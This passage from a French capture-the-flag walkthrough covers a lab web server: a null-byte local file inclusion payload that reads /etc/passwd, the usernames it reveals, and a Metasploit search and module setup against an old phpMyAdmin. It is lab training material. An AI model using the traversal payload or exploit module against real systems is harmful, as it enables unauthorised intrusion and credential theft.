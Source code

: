 Fort heureusement — ou malheureusement, tout dépend si l'on adopte le point de vue de l'attaquant ou du défenseur — il existe une astuce pour contrecarrer l'ajout de l'extension .php : l'injection d'un octet nul ([_null byte injection_](http://projects.webappsec.org/w/page/13246949/Null%20Byte%20Injection) en anglais). Pour faire simple, tout ce qui se trouve après l'octet nul ```%00``` n'est pas pris en compte ; ainsi, l'URL ```/index.php?page=../../../../../etc/passwd%00``` appellera le fichier ```/etc/passwd%00.png```, soit ```/etc/passwd```. Le résultat est bien celui escompté.

![Affichage de l'image CTF5_LFI2.png](images/CTF5_LFI2.png)

Outre les logins habituels (root, bin, daemon, apache, mysql...), cinq utilisateurs sont particulièrement intéressants : ```patrick```, ```jennifer```, ```andy```, ```loren``` et ```amy```. La prochaine étape logique sera de trouver le mot de passe de chacun d'entre eux, puis de se connecter avec leur compte en SSH. Mais avant cela, il y a d'autres pistes potentiellement intéressantes, remontées par nikto, à analyser.

### Présence de phpMyAdmin

phpMyAdmin est une application Web pour les systèmes de gestion de base de données MySQL. Cette interface pratique permet d'exécuter très facilement des requêtes comme les créations de table de données, insertions, mises à jour, suppressions et modifications de structure de la base de données, ainsi que l'attribution et la révocation de droits et l'import/export. Source : article [PhpMyAdmin](https://fr.wikipedia.org/wiki/PhpMyAdmin) de [Wikipédia en français](https://fr.wikipedia.org) [[auteurs](https://fr.wikipedia.org/w/index.php?title=PhpMyAdmin&action=history)]. D'après le changelog, la version de phpMyAdmin installée est 3.1.4.0 (2009-04-25).

~~OK Google~~ OK Metasploit ! Y a-t-il des exploits intéressants pour cette version de phpMyAdmin ?

```console
msf > search phpmyadmin

Matching Modules
================

Name                                                  Disclosure Date  Rank       Description
----                                                  ---------------  ----       -----------
auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     Telpho10 Backup Credentials Dumper
exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  phpMyAdmin Authenticated Remote Code Execution via preg_replace()
exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  Zpanel Remote Unauthenticated RCE
exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  PhpMyAdmin Config File Code Injection


msf > use exploit/unix/webapp/phpmyadmin_config
msf exploit(unix/webapp/phpmyadmin_config) > show options

Module options (exploit/unix/webapp/phpmyadmin_config):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   URI      /phpMyAdmin/     yes       Base phpMyAdmin directory path
   VHOST                     no        HTTP server virtual host

Exploit target:

   Id  Name
   --  ----
```